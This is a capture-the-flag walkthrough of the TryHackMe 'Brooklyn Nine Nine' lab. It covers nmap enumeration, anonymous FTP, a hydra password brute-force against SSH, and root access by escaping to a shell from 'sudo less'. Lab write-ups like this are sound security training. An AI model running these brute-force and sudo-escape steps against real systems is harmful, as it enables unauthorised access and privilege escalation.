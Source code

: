 # Brooklyn Nine Nine | https://tryhackme.com/room/brooklynninenine
![b99](https://i.imgur.com/hJToewe.png)



## Enumeration 
```
nmap -v -A -T4 -p- 10.10.147.67

21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

We have ftp anon login so next ftp to it and get the note_to_jake.txt.
```
![b99](https://i.ibb.co/m9139St/d.png)

```
~$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
so weak password huh? 

```
fredi@index:~$ hydra -l jake -P wordlists/rockyou.txt ssh://10.10.239.250 -t 20

attacking ssh://10.10.239.250:22/

[22][ssh] host: 10.10.239.250   login: jake   password: <redacted>
``
Then ssh into the machine.
:~$ ssh jake@10.10.239.250

```
## Priviledge Escalation

jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
    ``` 
so no need for sudo password for "less" ok.
https://gtfobins.github.io/gtfobins/less/

jake@brookly_nine_nine:~$ sudo less /etc/profile
!/bin/sh

And Thats IT we have root ! Now go get the flags!

